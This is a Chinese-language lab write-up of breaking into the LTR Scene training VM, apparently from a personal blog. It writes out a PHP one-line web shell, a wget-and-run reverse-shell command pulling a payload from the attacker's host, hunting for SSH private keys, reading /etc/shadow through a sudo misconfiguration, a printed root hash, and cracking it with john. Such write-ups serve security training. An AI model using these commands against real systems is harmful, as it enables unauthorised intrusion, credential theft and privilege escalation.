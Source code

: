 ```yaml
---
title: LTR Scene（php写入一句话+sudoer提权）
categories:
- training
tags:
- training
- command execution
- linux
---
```

以前的步骤经常看到一个感兴趣的点，然后就一直死磕ORZ

[发现登陆页面，就开始尝试检查弱密码](https://whale3070.github.io/training/2018/10/29/ch4inrulz-Apache-.htaccess%E5%8F%88%E6%98%AF%E5%A5%97%E8%B7%AF/)
实际上如果检查到备份文件泄露，很快就可以突破登陆表单。

[发现backup文件下载，从猜测直接跳到尝试，步骤错了。。](https://whale3070.github.io/training/2018/10/13/node-%E6%BA%90%E7%A0%81%E6%B3%84%E9%9C%B2+%E5%AF%86%E7%A0%81%E5%AD%A6%E7%9B%B8%E5%85%B3/)

所以踩点这一步的确没有做好。

---

## 踩点
```
21/tcp    open   ftp        ProFTPD 1.3.1 Server
22/tcp    open   ssh        OpenSSH 5.1 (protocol 1.99)
80/tcp    open   http       Apache httpd 2.2.13 ((Unix) DAV/2 PHP/5.2.10)
Linux 2.6.X
```
第一点，不要相信任何扫描结果。

#### 80:
http://192.168.2.120/logs/ 403
http://192.168.2.120/cgi-bin/ 403
- info1: 
```
index.php
<!-- username:logs password:zg]E-b0]+8:(58G -->
```
- info2:
```
一个邮箱dev@21ltr.com
源码发现了一个口令，经过尝试确认ftp口令可以登录。
```

#### 21:
info2: 检查过匿名登陆
- 下载了一个php文件
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/1.PNG)
lcd /root/Desktop
get backup_log.php 
- ftp权限可读不可写
```
lcd /root/Desktop
put
a.php（上传本地a.php）
a.php（把选中的文件，以a.php写入服务器）
```
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/2.PNG)

- 看来只能检查这个php脚本了。
```
<?php $log = time(); echo '<center><b>GMT time is: '.gmdate('r', $log).'</b></center>'; ?>          
```
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/3.PNG)
该脚本的作用：生成现在的时间戳，然后记录下发生错误的记录。
没有任何提权思路。

## 22 ssh：
[exp](https://www.exploit-db.com/exploits/45233/)
```
python 45233.py --port 22 --username logs 192.168.2.120
logs is not a valid user!
```

---

## 10001： scp
一开始发现了10001开放，可是具体去扫描的时候，又关闭了，所以以为是误报。
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/4.PNG)
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/5.PNG)

---

首先将kali改为192.168.2.240，ftp泄露的log提示。
scp会将文件发送到这个ip。

第二步建立一个文本文件，写入一句话。
`<?php system($_GET['cmd']) ?> `

第三步执行监听。

```
nc -nvlp 10000 > file.gz && nc -nv 192.168.2.120 10001 < text  
```
分为两条命令，第一条，监听本地10000端口，如果有连接进来，就发送到file.gz。第二条，将text文件发送到指定ip和端口。

注意：&& 和 ；的区别（linux shell）
&&正确执行完第一条，才执行第二条。
； 分别执行，命令之间不相关。

第四步，稍等一会儿nc显示，靶机连进来了==，并传递了一个备份文件。
在这里，我检查过backup_log.php，确认没有漏洞。但是居然可以利用scp写入system函数，让这个文件可以执行命令！真的出乎意料。
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/6.PNG)

---

接下来就简单了，[以前学过](https://whale3070.github.io/training/2017/11/02/g0rmint-%E4%B8%80%E5%8F%A5%E8%AF%9D%E5%86%99%E5%85%A5log-%E6%8F%90%E6%9D%83/)

>info: /var/www/htdocs/logs
Linux slax 2.6.27.27

准备php反弹shell脚本。

```
kali: python -m SimpleHTTPServer 888
		nc -lnvp 1234
```

`cd /tmp;wget http://192.168.2.240:888/php-reverse-shell.php;chmod +x php-reverse-shell.php;./php-reverse-shell.php`
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/7.PNG)

现在是apache用户

---
查找ssh密钥
find . -name "id_rsa" 2> /dev/null
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/8.PNG)

```
./mnt/live/mnt/hdc/slax/rootcopy/media/USB_1/Stuff/Keys/id_rsa           root root 1675 Jan  5  2008 
./mnt/live/memory/changes/media/USB_1/Stuff/Keys/id_rsa
./mnt/hdc/slax/rootcopy/media/USB_1/Stuff/Keys/id_rsa
./media/USB_1/Stuff/Keys/id_rsa
root root 1675 Jan  5  2008
```
尝试后，以hbeale用户登陆
```
chmod 600 key
ssh -i key hbeale@192.168.2.120  
```
现在是普通用户权限

---
## sudo权限错误

以前遇到过关于sudo权限的 [target](https://whale3070.github.io/training/2018/04/16/x/)

#### visudo
以root用户运行visudo命令，可以修改/etc/sudoers。

```
`# User privilege specification`
root ALL=(ALL) ALL
xx ALL=(ALL) ALL
```

如果sudoers文件中，有上述代码。说明xx用户可以用sudo执行任何命令（以root权限）

sudoers文件只有root账号才能查看并且修改。

#### sudo -l
用户hbeale执行该命令，查看sudoers权限。
```
User hbeale may run the following commands on this host:  
    (root) NOEXEC: /bin/ls, (root) /usr/bin/cat, (root) /usr/bin/more, (root)  
    !/usr/bin/su *root*  
    (root) NOPASSWD: /usr/bin/cat  
```
最后一行NOPASSWD，说明sudo命令运行/usr/bin/cat的时候，不需要输入密码。

于是sudo cat /etc/shadow
获取到了root加密的口令 `$1$VW5E9DmD$deoML8uqU/4HaTmNmfM7G1`

---

#### 破解/etc/shadow
将口令写入pass.txt

john --wordlists=/usr/share/wordlists/rockyou.txt pass.txt

![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/9.PNG)

su root，提权成功。

